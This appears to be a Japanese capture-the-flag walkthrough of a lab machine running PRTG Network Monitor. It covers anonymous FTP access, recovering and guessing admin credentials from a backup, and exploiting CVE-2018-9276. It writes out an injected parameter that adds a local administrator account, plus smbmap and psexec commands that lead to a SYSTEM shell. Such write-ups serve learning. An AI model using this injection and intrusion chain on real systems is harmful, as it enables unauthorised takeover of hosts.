



# 1\. Port scan

$ip=10.10.10.152

sudo nmap -sC -sV -Pn $ip

上記スキャン結果からFTPのパスワードが設定されていないことを確認。

user.txtをダウンロードした結果flagだった事を確認。

users.txt

ポートスキャンの内容から検知したサービスの情報と思われるものを

確認。

https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data

デフォルトのインストール先がprogramdataに設定されている事を

Paessler公式ページのSUPPORTから確認。

`ls -la`

hidden属性を含めたファイルを表示

nmapで検出したサービス名と同じディレクトリを発見

`cd Paessler`

`cd ./"PRTG Network Monitor"`

バックアップデータをダウンロード

バックアップを確認した結果

ファイル内のcredentialを表示した結果ユーザ名とパスワードを発見

記載してるユーザ情報でログインを試したが失敗

パスワードは PrTg@dmin2018
ではなくPrTg@dmin2019と推測

ログイン成功

[https://github.com/A1vinSmith/CVE-2018-9276を参照して](https://github.com/A1vinSmith/CVE-2018-9276%E3%82%92%E5%8F%82%E7%85%A7%E3%81%97%E3%81%A6)

攻撃を実施

setup→

Account Settings →

Notifications→

Add new Notification

program file Demo exe notification – outfile.ps1

parameterにtest.txt;net user pentestop P3nT3st! /add;net localgroup administrators pentestop /add

既存の管理者グループにpentestopユーザとP3nT3st! の情報を追加してするコマンドをtest.txtに追加する

username prtgadmin

password PrTg@dmin2018を入力

**CVE-2018-9276**

\*\*PRTGNetworkMoniterに関する脆弱性。\*\***この脆弱性はバージョン18.2.39以前のバージョンで見つかりました。****このバージョンのPRTG管理者ウェブコンソールに管理者権限を持つ攻撃者がアクセスした場合、センサーや****通知管理シナリオで不正なパラメータを送信することで、OSコマンドインジェクションの脆弱性が悪用されます。**

OSインジェクションを実施

作成したNotificationを実行

pentestopユーザを作成

`smbmap -H 10.10.10.152 -u pentestop -p 'P3nT3st!'`

smbmapで確認した結果、管理者権限でC$に接続できる事を確認。

`python3 psexec.py 'pentestop:P3nT3st!@10.10.10.152'`

rootを取得

